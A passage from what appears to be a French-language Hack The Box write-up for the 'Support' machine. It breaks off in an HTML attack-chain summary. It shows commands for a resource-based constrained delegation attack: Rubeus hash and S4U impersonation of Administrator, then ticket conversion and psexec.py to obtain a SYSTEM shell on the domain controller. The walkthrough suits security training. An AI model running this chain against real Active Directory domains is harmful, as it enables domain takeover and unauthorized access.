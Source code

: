 ```powershell
Get-ADComputer -Identity FAKE-COMP01

# 5. Configurer la délégation sur le DC
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### 🎫 Phase 5 : Génération du ticket Kerberos (PowerShell)

```powershell
# 1. Upload Rubeus
upload Rubeus.exe

# 2. Générer le hash RC4
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
# → RC4: 58A478135A93AC3BF058A5EA0E8FDB71

# 3. Exécuter l'attaque S4U pour usurper Administrator
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
# → Copier le ticket base64 généré
```

### 👑 Phase 6 : Shell SYSTEM (Linux)

```bash
# 1. Conversion du ticket Kerberos
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache

# 2. Utilisation du ticket pour obtenir un shell Administrator
export KRB5CCNAME=ticket.ccache
psexec.py support.htb/administrator@dc.support.htb -k -no-pass
# → NT AUTHORITY\SYSTEM obtenu !
```

---

## 🔗 Chaîne d'attaque résumée

<div class="bg-white dark:bg-dark-navbar p-8 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-6 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Parcours d'attaque complet
    </h3>
    <div class="space-y-4">
        <div class="flex items-center gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance et accès SMB</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → SMB anonyme → UserInfo.exe.zip</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Reverse Engineering</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ILSpy → Déchiffrement XOR → Credentials LDAP</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500">3</div>